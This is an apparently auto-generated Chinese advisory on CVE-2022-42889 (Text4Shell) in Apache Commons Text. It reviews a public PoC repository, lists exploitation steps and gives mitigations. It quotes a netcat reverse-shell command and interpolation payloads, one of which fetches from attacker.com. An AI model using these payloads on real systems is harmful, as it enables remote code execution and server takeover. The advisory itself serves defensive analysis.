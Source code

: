 ## CVE-2022-42889-Apache Commons Text RCE

**漏洞编号:** CVE-2022-42889

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Commons Text

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** 1.5 <= version <= 1.9

**利用条件:** 应用程序使用了受影响版本的 Apache Commons Text，并且允许用户可控的输入传递给存在漏洞的插值函数。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2022-42889，又名Text4Shell，是Apache Commons Text库中的一个关键漏洞。该漏洞源于Apache Commons Text在处理变量插值时，默认包含了一些不安全的 StringLookup 实现，如 `script`、`dns` 和 `url`。攻击者可以通过构造包含恶意表达式的输入，利用这些 StringLookup 实现执行任意代码或与远程服务器进行交互。

**有效性：**

提供的Python POC代码尝试利用此漏洞。它通过构造包含恶意`script`查找的payload，将其作为GET请求的参数发送到目标URL。Payload中的命令`nc {args.ip} {args.port} -e {args.type}`使用netcat建立反向shell连接到攻击者的机器。如果目标系统运行着存在漏洞的Apache Commons Text版本，并且netcat可用，则此POC应有效。

**投毒风险：**

代码本身并没有明显的投毒行为。这段代码的主要目的是利用漏洞，建立反向shell。代码包含MIT许可证，表面上代码作者允许代码使用者复制、修改、合并、发布、分发、再许可和/或出售软件的副本，但并不能完全排除未来作者修改代码进行投毒行为的可能性。风险占比5%。主要考虑到以下几点：

*   **依赖netcat：** POC依赖目标系统安装了netcat。如果目标系统没有netcat，则漏洞利用会失败，但不会造成其他损害。
*   **反向Shell：**  反向Shell本身有风险，因为它允许攻击者远程访问受害者的系统。但是，这是漏洞利用本身的性质，而不是代码作者故意引入的恶意行为。

**利用方式：**

1.  **确定目标应用程序是否使用了受影响的Apache Commons Text版本 (1.5 <= version <= 1.9)。**
2.  **找到应用程序中接受用户输入的地方，这些输入最终会被传递给 Apache Commons Text 的插值功能。**
3.  **构造包含恶意表达式的Payload，例如`${script:javascript:java.lang.Runtime.getRuntime().exec("command")}` 或 `${url:http://attacker.com/evil.txt}`。**
4.  **将Payload作为输入发送到目标应用程序。**
5.  **如果漏洞利用成功，攻击者将能够执行任意代码或与远程服务器进行交互。**

**防范措施：**

*   **升级到Apache Commons Text 1.10.0或更高版本。该版本默认禁用了不安全的StringLookup实现。**
*   **如果无法升级，可以手动禁用不安全的StringLookup实现。**
*   **验证所有用户输入，防止恶意表达式注入。**

**项目地址:** [vickyaryan7/Text4shell-exploit](https://github.com/vickyaryan7/Text4shell-exploit)

**漏洞详情:** [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)